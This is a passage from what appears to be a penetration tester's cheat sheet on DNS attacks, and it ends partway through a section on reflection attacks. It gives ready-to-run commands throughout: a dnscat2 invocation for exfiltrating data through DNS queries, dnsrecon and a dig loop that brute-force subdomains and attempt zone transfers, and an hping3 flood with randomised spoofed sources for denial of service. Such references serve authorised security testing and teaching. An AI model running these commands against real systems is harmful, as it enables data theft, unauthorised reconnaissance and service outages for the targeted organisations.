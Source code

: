 ### Data Exfiltration

#### DNS Exfiltration

*   **Tool:** \[\[DNSCat2]]

    ```bash
    dnscat2 -d example.com
    ```
* **Description:** Exfiltrate data by encoding it into DNS queries, allowing it to bypass traditional data exfiltration defenses.

## Exploits and Attacks

### Brute Force Zone Transfer

*   **Tool:** \[\[DNSRecon]]

    ```bash
    dnsrecon -d example.com -t brt
    ```
* **Description:** Attempt to brute force the zone transfer permissions to retrieve DNS records.

\


*   **Tool:** \[\[Custom Scripts]], \[\[Dig]]

    ```bash
    for sub in $(cat /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt);
    	do dig $sub.<target_domain> @<target_ip> | grep -v ';\|SOA' | sed -r '/^\s*$/d' | grep $sub | tee -a subdomains.txt 
    	&& dig axfr $sub.<target_domain> @<target_ip> | grep -v ';\|SOA' | sed -r '/^\s*$/d' | grep $sub | tee -a subdomains.txt;
    	done
    ```
* **Description:** Presence of an SOA record in the return is indication of a zone that can be brute forced.

### Denial of Service

#### TCP/UPD Flood Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]

    ```bash
    hping3 <target_ip> -p <target_port> --flood --rand-source -c 1000
    ```
* **Description:** Flooding the port with connection attempts, potentially leading to a denial of service.

#### TCP/UDP Reflection Attack

*   **Tool:** \[\[HPing3 Cheat Sheet]]
